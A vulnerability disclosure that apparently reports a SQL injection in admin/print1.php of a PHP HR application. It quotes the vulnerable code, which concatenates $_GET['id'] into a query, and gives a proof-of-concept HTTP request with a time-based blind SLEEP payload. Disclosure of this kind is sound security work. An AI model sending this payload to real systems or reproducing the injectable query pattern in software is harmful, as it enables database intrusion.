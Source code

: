 ### Vulnerability file address

`admin/print1.php` from line 104,The `$_GET['id']` parameter is controllable and the `$_GET['id']` is not protected from sql injection, line 107 `$statement2 = $conn->prepare($sql2);` ,line 108 `$statement2->execute();`,line 108 performs a SQL query, causing SQL injection

```php
..........
..........
..........
  
  <?php 
                                                $sql2 = "SELECT * FROM quot_inv_items where inv_id='".$_GET['id']."'";
 
                
                                                 $statement2 = $conn->prepare($sql2);
                                                 $statement2->execute();
                                                     while($row2= $statement2->fetch(PDO::FETCH_ASSOC))
                                                     {
                                                
                                                           $sql1 = "SELECT * FROM tbl_product where id='".$row2['product_id']."'";
                                                 
                                                                
                                                 $statement1 = $conn->prepare($sql1);
                                                 $statement1->execute();
                                                     $row1 = $statement1->fetch(PDO::FETCH_ASSOC);
..........
..........
..........
```

### POC

```http
GET /CMS/php/_hr_soft/admin/print1.php?id=1' AND (SELECT 1442 FROM (SELECT(SLEEP(5)))PxxA)-- syeM HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20250130162257987](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501301622045.png)